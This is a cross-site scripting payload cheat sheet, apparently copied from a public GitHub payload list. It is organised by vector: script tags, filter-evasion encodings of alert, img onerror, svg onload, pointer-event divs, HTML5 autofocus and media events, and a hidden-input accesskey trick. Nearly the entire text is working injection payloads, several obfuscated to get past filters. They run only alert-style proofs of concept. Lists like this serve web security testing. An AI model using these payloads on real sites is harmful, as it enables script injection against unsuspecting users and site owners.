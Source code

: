 https://github.com/payloadbox/xss-payload-list

XSS PAYLOADS <3
<inpuT autofocus oNFocus​="setTimeout(function() { /*\`*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\`*/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

IF ALERT IS BLOCKED

\u0061\u006C\u0065\u0072\u0074(1337)
\u{61}\u{6C}\u{65}\u{72}\u{74}(1337)
\u{61}\u{6C}\u{65}\u{72}\u{74}`1337`
\u0061\u006C\u0065\u0072\u0074`1337`

Img payload

<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

Svg payload

<svgonload=alert(1)>

<svg/onload=alert('XSS')>

<svg onload=alert(1)//

<svg/onload=alert(String.fromCharCode(88,83,83))>

<svg id=alert(1) onload=eval(id)>

"><svg/onload=alert(String.fromCharCode(88,83,83))>

"><svg/onload=alert(/XSS/)

<svg><script href=data:,alert(1) />

<svg><script>alert('33')

<svg><script>alert&lpar;'33'&rpar;

Div payload

<div onpointerover="alert(45)">MOVE HERE</div>

<div onpointerdown="alert(45)">MOVE HERE</div>

<div onpointerenter="alert(45)">MOVE HERE</div>

<div onpointerleave="alert(45)">MOVE HERE</div>

<div onpointermove="alert(45)">MOVE HERE</div>

<div onpointerout="alert(45)">MOVE HERE</div>

<div onpointerup="alert(45)">MOVE HERE</div>

XSS using HTML5 tags

<body onload=alert(/XSS/.source)>

<input autofocus onfocus=alert(1)>

<select autofocus onfocus=alert(1)>

<textarea autofocus onfocus=alert(1)>

<keygen autofocus onfocus=alert(1)>

<video/poster/onerror=alert(1)>

<video><source onerror="javascript:alert(1)">

<video src=_ onloadstart="alert(1)">

<details/open/ontoggle="alert`1`">

<audio src onloadstart=alert(1)>

<marquee onstart=alert(1)>

<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen

<body ontouchend=alert(1)> // Triggers when a finger is removed from touch screen

<body ontouchmove=alert(1)> // When a finger is dragged across the screen.

XSS in hidden input

<input type="hidden" accesskey="X" onclick="alert(1)">

Use CTRL+SHIFT+X to trigger the onclick event